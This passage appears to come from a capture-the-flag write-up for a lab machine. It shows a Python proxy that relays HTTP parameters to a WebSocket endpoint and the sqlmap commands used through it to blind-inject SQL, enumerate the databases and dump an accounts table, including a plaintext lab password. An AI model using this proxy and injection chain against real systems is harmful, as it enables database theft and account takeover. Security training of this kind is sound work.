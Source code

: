 ```python
            if payload:
                content = send_ws(payload)
            else:
                content = 'No parameters specified!'

            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host, CustomHandler)
    httpd.serve_forever()

def send_ws(payload):
    ws = create_connection(ws_server)
    message = unquote(payload).replace('"','\'')
    data = '{"id":"%s"}' % message

    ws.send(data)
    resp = ws.recv()
    ws.close()

    if resp:
        return resp
    else:
        return ''

if __name__ == "__main__":
    main()
```

We run our proxy, and then run sql map to enumerate databases.
Keep in mind that we need valid ticket for it to work, so we create
new user, fetch valid ticket number and place it as follows:

```sh
> sqlmap -u "http://localhost:8081/?id=59902" --technique B --batch --threads 10 --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

> sqlmap -u "http://localhost:8081/?id=59902" --technique B --batch --threads 10 -D soccer_db --tables

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+

> sqlmap -u "http://localhost:8081/?id=59902" --technique B --batch --threads 10 -D soccer_db -T accouts --dump

+-------+-------------------+----------------------+----------+
| id    | email             | password             | username |
+-------+-------------------+----------------------+----------+
| 1324  | player@player.htb | PlayerOftheMatch2022 | player   |
```